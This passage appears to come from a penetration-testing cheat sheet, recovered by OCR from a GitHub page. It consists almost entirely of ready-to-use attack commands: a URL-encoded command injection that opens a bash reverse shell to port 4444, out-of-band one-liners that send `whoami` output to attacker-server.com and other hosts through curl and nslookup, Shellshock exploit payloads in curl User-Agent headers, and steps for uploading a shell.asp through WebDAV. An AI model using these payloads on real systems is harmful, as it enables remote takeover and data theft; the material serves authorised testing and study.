 ```
example: Archive=test%20--version%3Bbash+-c+'bash+-i+>%26+/dev/tcp/192.168.x.xxx/4444+0>%261'
```

-> Out Of Band - OOB Exploitation
```
curl http://$(whoami).site.com/
curl http://`whoami`.site.com/
nslookup `whoami`.attacker-server.com &
curl http://192.168.0.20/$(whoami)
```

-> Check if the commands are executed by PowerShell or CMD
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

## Shellshock
-> Detection
```
nikto -h <IP> -C all
```
	
-> Exploit
```
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -c 'whoami'" <IP>
curl -A "() { :; };echo ;/bin/bash -c 'hostname'"  <IP>
curl -A "() { :; }; /usr/bin/nslookup $(whoami).site.com" <IP>
```

## WebDAV
-> Connect to WebDAV server and send malicious file to shell
```
cadaver http://<IP>/webdav
put <shell.asp>
```
```
curl -u "<user>:<password>" http://<IP>/webdav/shell.asp
```
https://github.com/notroj/cadaver
